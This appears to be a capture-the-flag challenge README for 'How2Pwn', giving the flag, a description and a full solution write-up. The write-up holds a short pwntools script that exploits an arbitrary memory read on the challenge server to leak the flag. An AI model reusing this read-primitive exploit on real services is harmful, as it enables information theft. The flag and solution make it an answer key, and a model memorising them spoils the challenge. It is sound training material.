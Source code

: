 # How2Pwn

This challenge is about leaking information through an arbitrary read primitive, from a remote server.

# Flag(s) 
`DDC{this_is_the_real_flag_go_submit}`

# Domain name (OR) Link to challenge on nextcloud
`how2pwn.hkn`

# Description(s) (THIS IS WHAT THE USER WILL SEE, YOU CAN USE MARKDOWN HERE))
## how2pwn game
Can you find the flag, it's hidden!

# Prerequisites and Outcome

Prerequisites:
None

# Solutions (FULL WRITEUP FOR EACH FLAG.)

## Flag 1
Run the program locally in a debugger, and note the address of the flag variable. e.g.
`x/x (char*) flag`
Open a connection to the remote server and enter the `look around` menu.
Enter the address of the flag in base 10.
Flag will be printed to stdout.
```py
from pwn import *

r = remote("localhost", 1024)
r.recvuntil("implemented\n")
r.sendline("1")
r.recvuntil("look?\n")
r.sendline(str(0x402008))
r.interactive()
```